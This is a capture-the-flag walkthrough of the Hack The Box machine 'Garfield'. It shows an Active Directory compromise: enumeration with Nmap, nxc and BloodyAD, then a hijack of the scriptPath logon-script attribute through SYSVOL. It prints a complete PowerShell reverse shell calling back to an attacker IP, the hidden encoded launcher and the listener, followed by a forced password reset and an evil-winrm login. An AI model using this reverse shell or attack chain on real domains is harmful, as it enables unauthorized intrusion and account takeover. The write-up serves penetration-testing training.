# Garfield

**HTB Machine:** Garfield  
**Difficulty:** Hard  
**Platform:** Windows / Active Directory  
**Target:** `10.129.22.73`  
**Domain:** `garfield.htb`  
**Author:** Trushit Oza

## Overview

Garfield is a Windows Active Directory machine that starts with basic network and service enumeration, then pivots through a writable AD object misconfiguration to achieve code execution through a logon script path abuse. From there, the attack chain is used to reset another domain user's password and obtain a WinRM session.

The path to compromise was:

1. Discover exposed AD services with Nmap.
2. Authenticate to SMB and LDAP with valid domain credentials.
3. Identify writable AD objects with BloodyAD.
4. Abuse the `scriptPath` attribute on a target user.
5. Trigger a PowerShell reverse shell through a malicious batch file in SYSVOL.
6. Reset the password of a second domain account.
7. Verify WinRM access and capture the user flag.

## Credentials Used

These credentials were valid during enumeration and were sufficient for SMB and LDAP-backed domain discovery.

| Username     | Password            |
| ------------ | ------------------- |
| `j.arbuckle` | `Th1sD4mnC4t!@1978` |

## Reconnaissance

The initial Nmap scan showed the machine as a domain controller with the usual AD surface area exposed, including DNS, Kerberos, LDAP, SMB, WinRM, and RDP.

```bash
nmap -sCV -A 10.129.22.73 -oN Nmap.txt
```

Key ports observed:

- `53/tcp` - DNS
- `88/tcp` - Kerberos
- `135/tcp` - MSRPC
- `139/tcp` / `445/tcp` - SMB
- `389/tcp` / `3268/tcp` - LDAP / Global Catalog
- `3389/tcp` - RDP
- `5985/tcp` - WinRM





## SMB and AD Enumeration

With valid credentials, SMB shares and LDAP-backed domain objects were enumerable.

```bash
nxc smb 10.129.22.73 -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --shares
```

This confirmed that the credentials were accepted and that SMB could be used for deeper domain reconnaissance.



Next, I queried writable AD objects with BloodyAD.

```bash
bloodyAD --host garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' get writable
```

The output revealed two relevant objects with write permissions:

- `CN=Liz Wilson,CN=Users,DC=garfield,DC=htb`
- `CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb`



## Abuse Path: Logon Script Hijack

The write access on the target user object allowed abuse of the `scriptPath` attribute. The idea was to point the user to a malicious batch file hosted in SYSVOL so that the next logon would execute the payload.

### Generate the Reverse Shell Payload

I generated a PowerShell reverse shell and encoded it for execution through a batch file.

```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("10.10.15.239",9001);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
$sendback=(iex $data 2>&1|Out-String);
$sendback2=$sendback+"PS "+(pwd).Path+"> ";
$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
$client.Close()' | iconv -t UTF-16LE | base64 -w0
```



Then I wrapped the encoded payload in a simple batch file.

```bat
@echo off
powershell -NoP -NonI -W Hidden -Exec Bypass -Enc <Payload>
```



### Upload the Batch File to SYSVOL

The malicious file was uploaded into the domain SYSVOL scripts directory. This is the location that makes logon script execution practical in a domain environment.

```bash
smbclient //10.129.22.73/SYSVOL -U j.arbuckle
```

Inside the share:

```bash
cd garfield.htb/scripts
put login.bat
```

If the upload stalls with `NT_STATUS_IO_TIMEOUT`, reducing the VPN MTU helped stabilize the transfer:

```bash
sudo ifconfig tun0 mtu 1200
```



### Set the Script Path

With the payload in place, I updated the `scriptPath` attribute for the target user object.

```bash
bloodyAD --host garfield.htb -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v login.bat
```



### Catch the Shell

Before triggering the logon, I started a listener on the attacker machine.

```bash
nc -nvlp 9001
```



When the target processed the script path, the reverse shell connected back successfully.

## From Shell to WinRM

Once inside the session, I reset the password for the secondary account `l.wilson_adm`.

```powershell
Set-ADAccountPassword -Identity "l.wilson_adm" -NewPassword (ConvertTo-SecureString 'Asdf@1234' -AsPlainText -Force) -Reset
```

The new password was validated over WinRM.

```bash
nxc winrm 10.129.22.73 -u l.wilson_adm -p 'Asdf@1234'
```



With WinRM confirmed, I opened an interactive session.

```bash
evil-winrm -i 10.129.22.73 -u l.wilson_adm -p 'Asdf@1234'
```



## User Flag

The user flag was located on the desktop of the `l.wilson_adm` account.



## Takeaways

The critical weakness here was not a single vulnerability but a chain of misconfigurations: valid domain credentials, writable AD object permissions, and a script execution path that could be abused through SYSVOL. Once those were combined, code execution and lateral user takeover followed naturally.

The main operational lesson is that in AD environments, write access on even a single user object can be enough to build a full compromise path when logon scripts or similar execution hooks are exposed.
